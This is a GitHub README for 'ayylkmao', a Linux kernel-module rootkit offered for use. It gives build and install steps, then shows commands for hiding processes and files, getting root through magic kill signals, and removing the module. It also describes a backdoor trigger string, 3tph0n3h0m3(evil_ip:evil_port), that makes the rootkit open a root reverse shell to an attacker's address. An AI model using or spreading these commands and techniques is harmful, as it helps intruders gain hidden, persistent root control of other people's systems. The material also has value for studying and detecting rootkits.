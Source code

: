 # ayylkmao.ko
An LKM rootkit for aliens by aliens.

## Installation
Make sure you have the kernel headers installed for your target system. After that you can just run:

```
git clone https://github.com/ableiten/ayylkmao && cd ayylkmao
make
```

That's all. You can install the `ayylkmao.ko` module normally.

## Basic Usage
The magic kill signals are all defined as macros in [ayylkmao.c](https://github.com/ableiten/ayylkmao/blob/master/ayylkmao.c#L11). It is recommended that you modify these.

#### Hiding Processes
You can hide processes using the signals `SIGNAL_HIDE_PROCESS` and `SIGNAL_SHOW_PROCESS`.

```
> pidof python
18237
> kill -50 18237
> pidof python
> kill -51 18237
> pidof python
18237
```
#### Hiding Files/Directories
You can hide files and directories by naming them using the `MAGIC_PREFIX` prefix.

```
> touch sp00kyfile file
> ls
file
```

#### Phoning Home
To phone home you'll first need a reverse shell that accepts arguments [like this one](https://github.com/ableiten/simple-reverse-shell). It should be placed on the infected system at `MAGIC_PREFIX-util/rev` where the rootkit knows to look for it.

After that you can simply send specially formatted data over any connection and a root reverse shell will phone home to the specified address and port.

Using the default backdoor magic, that would look something like this:
```
3tph0n3h0m3(evil_ip:evil_port)
```

#### Privilege Escalation
You can give any process root by sending it the `SIGNAL_GIVE_ROOT` signal.

```
> whoami                                 
user
> echo $$                                
6678
> kill -52 6678                          
> whoami                                 
root
```

#### Removal
Since the kernel module is hidden and unremovable by default, you will need to unhide it so that it can be removed. To do this simply signal any process with `SIGNAL_UNHIDE_MODULE` and then you should be able to remove the module normally.

```
> kill -53 0
> rmmod ayylkmao.ko
```

## Useful Material
- [Every](https://github.com/jiayy/lkm-rootkit) [single](https://github.com/croemheld/lkm-rootkit) [other](https://github.com/m0nad/Diamorphine) [LKM](https://github.com/triedal/rootkit) [rootkit](https://github.com/nurupo/rootkit/) (Each word is a seperate link)
- http://phrack.org/issues/58/7.html
- http://www.ouah.org/LKM_HACKING.html (mirror, original unavailable as of writing)
- http://r00tkit.me/
